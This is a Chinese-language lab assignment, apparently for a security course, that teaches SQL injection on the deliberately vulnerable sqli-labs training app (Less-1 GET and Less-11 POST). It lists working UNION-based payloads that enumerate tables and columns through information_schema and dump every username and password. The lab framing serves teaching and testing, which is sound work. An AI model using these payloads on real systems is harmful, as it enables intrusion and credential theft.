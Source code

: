 - **目标页面**：  [地址](http://43.140.204.72:9003/sqlilabs/Less-1/)
- <img src = "https://image.kmoon.fun/2025/202505061811567.png" width="50%">
- **注入步骤**：
    1. 探测注入点：输入 `'`、`1'--+` 等判断是否存在报错信息
	    `1--+` 是在 SQL 注入中常见的一种语句，用于**注释掉 SQL 查询中后续的部分**，防止语法错误或绕过条件限制，在 SQL 中，`--` 是注释符，表示这一行后面全部都是注释内容。
    2. 判断列数：
        - `1 ORDER BY 1`、`1 ORDER BY 2`、... 直到页面报错，确定列数
    3. 回显数据：
        - `?id=-1' union select 1,database(),version()--+` 显示当前数据库信息
        - `?id=-1' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()` 获取表名
        - 查询字段名及数据同理
- **结果记录**：
    - 数据库名
    - 表名
    - 用户数据（如 username、email 等）
#### 2. 注入实验：Less-11（POST注入）
- **目标页面**：[地址](http://43.140.204.72:9003/sqlilabs/Less-11/)
- <img src = "https://image.kmoon.fun/2025/202505061809457.png" width = "50%">
- **方式**：POST 请求需借助抓包工具（如 **Burp Suite**）
- **注入步骤**：
    1. 捕获 POST 请求
    ![image.png](https://image.kmoon.fun/kmoonblog/2025/202505061816340.png)
    2. 修改 `uname`和 `passwd` 字段尝试注入，
	    - `uname=admin'&passwd=admin&submit=Submit` 系统报错，证明有SQL注入漏洞，并且为字符型注入
	    - 判断字段长度
		    - `输入uname=ad' order by 2#&passwd=admin&submit=Submit #回显正常`
		    - `uname=ad' order by 3#&passwd=admin&submit=Submit #回显错误`
		- 确定回显位置
			- `uname=ad' union select 1,2#&passwd=admin&submit=Submit`
    3. 获取信息（使用联合查询、等方法）
	    - 查看当前数据库及其用户
			- `uname=ad' union select user(),database()#&passwd=admin&submit=Submit`
	    - 查看所有表
		    - `uname=ad' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security')#&passwd=admin&submit=Submit`
		- 查看 user 表所有列
			- `uname=ad' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')#&passwd=admin&submit=Submit`
		- 查看所有用户的账号密码
			- `uname=ad' union select 1,(select group_concat(id,username,password) from users)#&passwd=admin&submit=Submit`
- **结果记录**：
    - 页面行为对比分析
    - 注入点确认方式
    - 成功提取的信息与构造语句
#### 3. 选做
- [墨者学院 SQL注入漏洞测试(布尔盲注)](https://mozhe.cn/bug/detail/UDNpU0gwcUhXTUFvQm9HRVdOTmNTdz09bW96aGUmozhe)
- 需要注册账号，登录启动靶场环境。
- 若选做本题，需要在实验报告中描述解题思路。
	<center><img src="https://image.kmoon.fun/2025/202505061845227.png" alt="image" width="400" /></center>

## 参考资料
- [sqli-labs GitHub 项目](https://github.com/Audi-1/sqli-labs)
- [OWASP SQL Injection 指南](https://owasp.org/www-community/attacks/SQL_Injection)
- [CSDN Sqli-labs通关教程](https://blog.csdn.net/dreamthe/article/details/123795302)
